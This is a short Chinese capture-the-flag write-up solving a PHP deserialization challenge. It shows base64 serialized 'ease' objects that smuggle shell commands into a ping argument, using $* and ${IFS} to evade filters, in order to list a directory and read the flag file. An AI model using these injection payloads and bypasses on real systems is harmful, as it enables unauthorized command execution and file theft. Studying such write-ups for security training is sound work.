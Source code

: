 [![p9w7iqg.md.png](https://s1.ax1x.com/2023/05/08/p9w7iqg.md.png)](https://imgse.com/i/p9w7iqg)

payload如下：

```
ctf=Tzo0OiJlYXNlIjoyOntzOjY6Im1ldGhvZCI7czo0OiJwaW5nIjtzOjQ6ImFyZ3MiO2E6MTp7aTowO3M6NDoibCQqcyI7fX0=
```

[![p9w7Zin.md.png](https://s1.ax1x.com/2023/05/08/p9w7Zin.md.png)](https://imgse.com/i/p9w7Zin)

发现存在一个文件夹，为$flag\_1s\_here$，构造$ls$指令

```
$e = new ease("ping", array('l$*s${IFS}f$*lag_1s_here'));
```

payload如下：

```
Tzo0OiJlYXNlIjoyOntzOjY6Im1ldGhvZCI7czo0OiJwaW5nIjtzOjQ6ImFyZ3MiO2E6MTp7aTowO3M6MjQ6ImwkKnMke0lGU31mJCpsYWdfMXNfaGVyZSI7fX0=
```

[![p9wHahn.md.png](https://s1.ax1x.com/2023/05/08/p9wHahn.md.png)](https://imgse.com/i/p9wHahn)

发现flag所在文件为$flag\_831b69012c67b35f.php$，构造$cat$指令：

```
$e = new ease("ping", array('ca$*t${IFS}f$*lag_1s_here$(printf${IFS}"\57")f$*lag_831b69012c67b35f.p$*hp'));
```

payload如下：

```
Tzo0OiJlYXNlIjoyOntzOjY6Im1ldGhvZCI7czo0OiJwaW5nIjtzOjQ6ImFyZ3MiO2E6MTp7aTowO3M6NzQ6ImNhJCp0JHtJRlN9ZiQqbGFnXzFzX2hlcmUkKHByaW50ZiR7SUZTfSJcNTciKWYkKmxhZ184MzFiNjkwMTJjNjdiMzVmLnAkKmhwIjt9fQ==
```

[![p90CxFP.md.png](https://s1.ax1x.com/2023/05/08/p90CxFP.md.png)](https://imgse.com/i/p90CxFP)

成功得到flag。
